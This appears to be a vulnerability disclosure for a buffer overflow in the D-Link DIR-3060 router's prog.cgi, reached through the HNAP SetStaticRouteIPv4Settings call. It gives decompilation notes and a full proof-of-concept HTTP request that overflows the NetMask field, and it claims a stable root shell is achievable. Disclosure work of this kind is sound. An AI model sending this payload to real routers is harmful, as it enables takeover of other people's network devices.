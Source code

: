 # D-Link DIR3060A1_FW111B04.bin Overflow vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://tsd.dlink.com.tw/


DIR-3060 prog.cgi  Keyword api  SetStaticRouteIPv4Settings.Overflow vulnerability exists


## Vulnerability details

IVar3 parameter obtains NetMask value

![](../img/Snipaste_2022-10-19_14-45-46.png)



Function FUN_ 0049ac18(), call parameter iVar3

![](../img/Snipaste_2022-10-19_14-55-16.png)



The function directly copies the value of iVar3 to local_ 5c, and the length is not verified, which is prone to overflow vulnerability.

![](../img/Snipaste_2022-10-19_16-07-51.png)



## POC

1. Attack with the following POC attacks

```xml
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetStaticRouteIPv4Settings>
			<StaticRouteIPv4Data>
				<SRIPv4Info>
				<Enabled>true</Enabled>
				<Name></Name>
				<IPAddress>192.168.0.1</IPAddress>
				<NetMask>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
          aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa</NetMask>
				<Gateway>192.168.0.254</Gateway>
				<Metric></Metric>
				<Interface></Interface>
				</SRIPv4Info>
			</StaticRouteIPv4Data>
		</SetStaticRouteIPv4Settings>
	</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell


